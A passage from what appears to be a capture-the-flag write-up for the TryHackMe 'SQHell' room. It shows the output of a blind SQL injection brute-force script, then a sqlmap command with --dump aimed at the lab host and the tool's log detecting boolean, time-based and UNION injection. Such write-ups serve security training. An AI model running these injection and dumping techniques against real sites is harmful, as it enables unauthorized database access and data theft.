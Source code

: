 This is just a loop searching each character in the flag table to match it against an ascii code, just like we did manually before. Copy and paste the above code in to a file and run it with python3 to get the following output:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# python3 flag3.py
Flag found:  THM{FLAG3:<HIDDEN>}
```

It takes a little while, but you get the idea!

## Flag 3 - Blind/Boolean - SQLMap Method

Lastly for this flag let's use SQLMap. The other methods are for scenarios where we can't use SQLMap, if we can then there's no reason to spend all that time on it. I can get the flag in one minute and three seconds using one command!

Let's do it:

```text
┌──(root💀kali)-[~/thm/sqhell]
└─# sqlmap -u http://sqhell.thm/register/user-check?username=admin --dbms=MySQL --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.5.5#stable}
|_ -| . [.]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org
[*] starting @ 21:48:46 /2021-06-16/

[21:48:46] [INFO] testing connection to the target URL
[21:48:46] [INFO] checking if the target is protected by some kind of WAF/IPS
[21:48:46] [INFO] testing if the target URL content is stable
[21:48:46] [INFO] target URL content is stable
[21:48:46] [INFO] testing if GET parameter 'username' is dynamic
[21:48:46] [INFO] GET parameter 'username' appears to be dynamic
[21:48:46] [WARNING] heuristic (basic) test shows that GET parameter 'username' might not be injectable
[21:48:46] [INFO] testing for SQL injection on GET parameter 'username'
[21:48:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:48:47] [INFO] GET parameter 'username' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable 
[21:48:47] [INFO] testing 'Generic inline queries'
[21:48:47] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[21:48:47] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[21:48:47] [WARNING] time-based comparison requires larger statistical model, please wait.................... (done)
[21:48:58] [INFO] GET parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[21:48:59] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:48:59] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:48:59] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[21:49:00] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
[21:49:03] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
```